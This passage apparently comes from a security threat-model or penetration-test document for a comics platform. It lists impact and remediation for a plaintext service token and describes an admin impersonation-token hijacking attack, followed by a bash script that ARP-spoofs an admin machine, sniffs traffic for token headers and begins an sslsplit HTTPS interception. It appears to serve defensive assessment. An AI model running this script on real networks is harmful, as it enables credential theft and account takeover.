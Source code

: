 #### Success Criteria
- Service token is stored in plain text
- Token never expires
- No IP whitelist for service token usage
- No usage alerts configured

#### Impact Assessment
- **Complete System Compromise**
- Bypass all authentication (Cognito, MFA)
- Grant unlimited credits to any account
- Impersonate any user
- Access all comics and user data
- Manipulate billing records

#### Remediation
- Use only hashed service tokens
- Implement IP whitelisting
- Add token rotation every 30 days
- Alert on all service token usage
- Require additional authentication for sensitive operations

---

### Attack 1.3: Admin Impersonation Token Hijacking
**Attack Vector:** Network/Client  
**Complexity:** Medium  
**Impact:** Critical  
**MITRE ATT&CK:** T1557.001 (MITM: LLMNR/NBT-NS Poisoning)

#### Description
Impersonation tokens are not bound to IP addresses after first use, allowing stolen tokens to be used from anywhere within 15-minute window.

#### Attack Steps

**Step 1: Intercept Impersonation Token Creation**
```bash
#!/bin/bash
# token_interception.sh - Monitor network for impersonation tokens

# Method 1: ARP Spoofing + Packet Capture
echo "[+] Setting up MITM attack..."

# Install required tools
sudo apt-get install -y dsniff tcpdump wireshark

# Enable IP forwarding
sudo sysctl -w net.ipv4.ip_forward=1

# ARP spoof the admin's machine
ADMIN_IP="192.168.1.100"
GATEWAY_IP="192.168.1.1"
INTERFACE="eth0"

sudo arpspoof -i $INTERFACE -t $ADMIN_IP $GATEWAY_IP &
sudo arpspoof -i $INTERFACE -t $GATEWAY_IP $ADMIN_IP &

# Capture traffic and filter for API calls
sudo tcpdump -i $INTERFACE -A -s 0 'tcp port 443 and host api.example.com' | \
  grep -oE 'x-admin-impersonation-token: [a-zA-Z0-9.-]+' | \
  tee captured_tokens.txt

# Alternative: Use SSLsplit for HTTPS interception
sudo sslsplit -D -l connections.log -j /tmp/sslsplit/ \
```
